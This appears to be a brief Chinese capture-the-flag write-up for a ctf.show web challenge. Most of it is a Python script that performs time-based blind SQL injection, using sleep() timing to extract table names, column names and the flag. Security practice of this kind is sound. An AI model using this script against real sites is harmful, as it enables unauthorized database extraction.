


# 知识点
# 思路
没有告诉注入点，找得我好苦呀。在time.php找了，也去api/index.php找，就是忘了首页那支猫那里有post请求包QAQ<br /><br />这下可以时间盲注辣
```bash
import requests
import time
url = 'http://2d4035ad-1a9e-414b-a816-23240b85af1c.challenge.ctf.show/api/index.php'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列
        payload = {
            # 'ip': f"1 or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        # 爆值
        payload = {
            'ip': f"1 or if(ascii(substr((select group_concat(flaga) from ctfshow_flagx),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j


```

